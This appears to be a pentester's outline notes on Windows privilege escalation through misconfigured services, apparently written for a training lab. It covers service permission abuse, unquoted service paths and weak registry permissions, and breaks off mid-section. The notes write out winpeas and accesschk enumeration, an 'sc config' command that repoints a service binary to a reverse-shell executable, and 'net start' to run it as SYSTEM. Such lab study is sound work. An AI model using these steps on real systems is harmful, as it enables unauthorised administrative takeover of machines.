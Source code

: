 ## Windows PE
    - Missconfigured services
        - service level permissions (Change path of service to a different executable)
            - Service levels
                - Useful:
                    - SERVICE_STOP
                    - SERVICE_START
                - Dangerous
                    - SERVICE_CHANGE_CONFIG
                    - SERVICE_ALL_ACCESS 
            - Find a service that has high permissions, can be configured, and can be started / stopped
                - Perform a winpeas scan and search for 
                    > winpeas.exe servicesinfo > winpeas.out
                    - Search for the following, these services maybe crucial to adjust!
                        - "Services Information"
                        - "Modifiable Services"
                - verify
                    - Check the service
                        - .\accesschk.exe /accepteula -uwcqv user daclsvc
                            - Look for "SERVICE_CHANGE_CONFIG, SERVICE_START, SERVICE_STOP"
                            - Check if there are depenencies and if they need to start.
                    - Check configuration
                        - sc qc daclsvc
                            - Look for "SERVICE_START_NAME : Local System" = System user 
                - Once all of this is checked, change the location of "BINARY_PATH_NAME"
                    > sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
                    - Check change
                        > sc qc daclsvc 
                - Start service
                    > net start daclsvc
        - Unquoted service path
            - Example: --> C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
                - Windows will check "C:\Program" first, so create a binary located in "C:\" name "Program"
            > winpeas.exe servicesinfo > winpeas.out
                - Search for the following in winpeas file
                    - "Services Information"
                    - "No\ quotes\ and\ Space\ detected"
                    OR
                    - "Unquoted and space detected"
            - verify
                - Check if you can start or stop the service
                    - .\accesschk.exe /accepteula -ucqv user unquotedsvc
                            - Look for "SERVICE_START, SERVICE_STOP"
                - Check service current state
                    > sc qc unquotedsvc
                        - Look for "SERVICE_START_NAME : Local System" = System user 
                - Check if you have write permissions for each directory in the path
                    - Perform "gpresult /V" to determine which security groups you are apart of.
                    > .\accesschk.exe /accepteula -uwdq C:\
                    > .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
                    > .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
                        - In this dir "Common" = "common.exe"
            - Add a reverse shell service to the path with the specific name
            - Start service
                > net start unquotedsvc
        - Weak registry permissions
            > winpeas.exe servicesinfo > winpeas.out
                - Search for the following in winpeas file
                    - "Services Information"
                    - "modify\ any"
                    - make sure it says "(Interactive [TakeOwnership])"
            - verify